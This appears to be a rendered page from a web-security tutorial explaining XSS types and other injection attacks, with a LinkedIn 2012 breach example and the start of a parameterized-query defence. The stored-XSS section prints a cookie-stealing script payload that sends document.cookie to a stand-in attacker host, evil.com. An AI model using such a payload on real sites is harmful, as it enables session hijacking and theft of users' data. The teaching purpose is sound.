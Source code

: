 XSS is a vulnerability that allows an attacker to inject malicious scripts (usually JavaScript) into content that other users will view.

When a victim visits the page, their browser executes the attacker's script as it came from the trusted site allowing the attacker to steal data, manipluate the page or hijack sessions.

*XSS targets users, not the server — but it exploits server-side input handling mistakes.*

Within XSS there is various types such as:

**Stored XSS (Persistent)**

Malicious script is permanently stored on the server (e.g. in a DB, blog comment, profile field)

*Example:*
```html
<script>fetch('http://evil.com/steal?c=' + document.cookie)</script>
```
If this is stored in a blog comment and shown to other users, every viewer runs the script.

**Reflected XSS (Non-Persistent)**

Malicious script is injected via the URL or request and reflected back in the response.

**DOM Based XSS**

The vulnerability exists in client side JavaScript. The page dynamically inserts untrusted data into the DOM without proper sanitization.

**4. LDAP, OS, NoSQL Injection**

Various other injection techniques for altering LDAP queries, System level commands or JSON based queries.

## Real World Example: LinkedIn (2012)

In 2012, attackers exploited SQL Injection vulnerabilities in LinkedIn’s web application to access their user database. Once inside, they dumped millions of user credentials.

In 2016 security researchers discovered that 117 million (previously thought to be 6.5M) complete LinkedIn login credentials were actually stolen in the 2012 breach and had been quietly circulating and sold on the dark web for years.

A mix of SQLi vulnerability and weak password hashing lead to millions of passwords and users being affected.

## Defense Machanisms Against Injection

**1. Use Parameterized Queries**

Parameterized queries separate data from code. This is the single most effective way to prevent SQL Injection.

Instead of dynamically building SQL with strings, you pass the SQL structure and the parameters separately.

*Good:*
```py
cursor.execute("SELECT * FROM users WHERE username = %s", (username,))
```
